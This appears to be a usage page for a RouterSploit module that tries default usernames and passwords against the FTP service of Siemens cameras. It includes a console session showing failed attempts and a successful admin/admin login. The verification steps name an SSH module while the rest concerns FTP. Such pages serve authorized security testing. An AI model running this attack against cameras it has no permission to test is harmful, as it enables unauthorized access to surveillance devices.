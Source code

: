 ## Description

Module performs dictionary attack with default credentials against Siemens Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/siemens/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/siemens/ftp_default_creds
rsf (Siemens Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Siemens Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
